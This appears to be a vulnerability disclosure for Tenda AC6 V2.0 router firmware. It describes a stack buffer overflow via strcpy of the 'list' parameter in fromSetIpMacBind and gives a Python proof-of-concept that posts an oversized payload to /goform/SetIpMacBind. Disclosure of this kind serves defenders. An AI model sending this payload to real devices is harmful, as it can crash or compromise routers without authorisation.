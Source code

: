 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromSetIpMacBind"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

在函数fromSetIpMacBind中，通过用户构造post请求传入list参数，未经参数检查。在1<=bindnum<=32的时候list传入的参数会通过strcpy(mib_buf, list);传入栈中造成溢出。其中mib_value[128]。

![image-20250618232337799](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618232337799.png)

poc

```python
import requests
def send_payload(url, payload):
    params={
            'bindnum':b'10',
            'list':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500
url="http://192.168.1.1/goform/SetIpMacBind"
send_payload(url, payload)   
```

![image-20250618232217205](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618232217205.png)